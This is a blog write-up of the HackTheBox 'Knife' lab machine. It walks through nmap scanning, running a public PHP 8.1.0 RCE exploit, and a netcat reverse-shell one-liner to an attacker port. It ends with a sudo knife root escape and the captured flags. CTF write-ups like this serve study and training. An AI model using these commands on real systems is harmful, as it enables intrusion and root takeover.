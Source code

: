 +++
title = "Knife Machine"
date = "2021-08-29T13:26:11+05:30"
author = "Somesh Banerjee"
authorTwitter = "banerjee_somesh"
cover = ""
tags = ["InfoSec", "HackTheBox"]
keywords = ["Linux", "knife", "RCE", "GTFObins"]
description = "Solution to own HackTheBox Machine Knife (Linux, Easy, 20 points)"
showFullContent = false
readingTime = true
+++
OS: Linux\
Points: 20\
Difficulty: Easy

ip=10.10.10.242

## User solution
The first thing is to do the nmap scan.
```console
┌──(kali㉿kali)-[~/HTB/Knife]
└─$ ip=10.10.10.242

┌──(kali㉿kali)-[~/HTB/Knife]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

┌──(kali㉿kali)-[~/HTB/Knife]
└─$ nmap -sC -sV -p$ports $ip -oA nmap_result
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-26 10:29 EDT
Nmap scan report for 10.10.10.242
Host is up (0.083s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.72 seconds
```
Now lets look at website at port 80. \
From the nmap scan we know that the server uses Apache 2.4.41 and Ubuntu OS. Using Wappalyzer we found it also uses PHP 8.1.0.\

There is a RCE exploit for PHP 8.1.0. Download it from [exploit-db](https://www.exploit-db.com/exploits/49933).

Run the exploit and got the flag
```console
┌──(kali㉿kali)-[~/HTB/Knife]
└─$ python3 exploits/49933.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acces tty; job crontol turned off.
$ whoami
james

$ pwd
/

$ cd /home/james; ls; cat user*
authorized_keys
hello
hello.rb
user.txt
aec6c92f2b998dc3912f334ac0c69ed5
```
## Root solution
Before procedding lets get a reverse shell at port 5454 with `mkfifo /tmp/f; nc <local-ip> 5454 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` and run `nc -lvnp 5454` before running the command.

I was unable to do the root part while the machine was active. Later from a help I realized I forgot to check GTFObins.

Coming to the process first we have to see which executables we can run as sudo.
```console
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```
Search GTFObins for knife you will get a command for shell
```console
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
# cat root/root.txt
b1c946e0dcc0715cb9039799fe824278
```
